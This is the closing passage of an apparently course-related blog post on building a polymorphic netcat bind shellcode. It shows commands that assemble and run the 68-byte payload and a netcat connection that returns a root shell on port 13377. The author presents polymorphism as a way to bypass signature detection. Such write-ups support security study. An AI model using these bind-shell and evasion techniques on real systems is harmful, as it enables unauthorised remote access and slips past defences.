 Let's assembly, link, and execute:  
```bash
# ./compile.sh netcat_bind_polymorphic && ./netcat_bind_polymorphic
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
listening on [any] 13377 ...

```
  
From another shell:  
```bash
# nc 127.0.0.1 13377
id
uid=0(root) gid=0(root) groups=0(root)
```
  
Perfect it works and our new shellcode is **68 bytes** long.  
We saw in this article that we can create some polymorphic versions of well known shellcodes in order to bypass the known signatures of these shellcodes.  
  
Hope you enjoyed this post, see you soon for our last assignment.  
Bye,  
  
[Phackt](https://twitter.com/phackt_ul)